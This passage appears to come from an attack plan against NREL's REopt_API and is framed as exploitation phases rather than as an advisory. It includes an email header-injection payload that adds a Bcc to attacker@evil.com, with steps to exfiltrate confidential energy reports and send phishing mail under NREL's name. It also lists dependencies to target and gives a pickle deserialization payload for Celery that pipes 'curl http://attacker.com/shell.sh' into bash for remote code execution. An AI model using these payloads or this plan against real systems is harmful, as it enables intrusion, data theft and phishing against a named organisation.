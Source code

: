 **Exploitation:**
```python
# Inject additional headers via newline characters
malicious_subject = "Energy Report\nBcc: attacker@evil.com\nContent-Type: text/html"

# If processed, this adds:
# - BCC to attacker's email
# - Changes content type to HTML (enabling phishing)
```

**Attack Steps:**
1. Locate forms that trigger email notifications (contact forms, report generation)
2. Inject CRLF characters (\r\n) in subject or header fields
3. Add malicious headers (Bcc, Reply-To, Content-Type)
4. Exfiltrate sensitive reports or conduct phishing attacks

**Impact:**
- Exfiltration of confidential energy data
- Phishing attacks appearing to come from NREL
- Spam campaigns abusing NREL's email reputation

---

### Phase 3: Exploitation (1-3 hours)

#### 5.1 Dependency Chain Attack

**Strategy:** Exploit vulnerabilities in REopt_API's dependency stack

**Common Dependencies to Target:**
```bash
# Likely dependencies based on Django projects:
- Celery (task queue) - CVEs in older versions
- Redis/RabbitMQ (message brokers)
- PostgreSQL/psycopg2 (database)
- Pillow (image processing) - historical CVEs
- requests library
- cryptography library
- JWT libraries (if using token auth)
```

**Attack Flow:**
1. Run `pip-audit` or `safety check` on requirements.txt
2. Identify vulnerable dependencies (e.g., Celery 4.x with known RCE)
3. Craft payloads targeting vulnerable dependency
4. Achieve RCE or privilege escalation

**Example - Celery Exploitation:**
```python
# If Celery uses pickle serialization (insecure)
import pickle
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('curl http://attacker.com/shell.sh | bash',))

# Serialize malicious object
payload = pickle.dumps(RCE())

# Send to Celery queue
# Result: Remote code execution when task is processed
```

---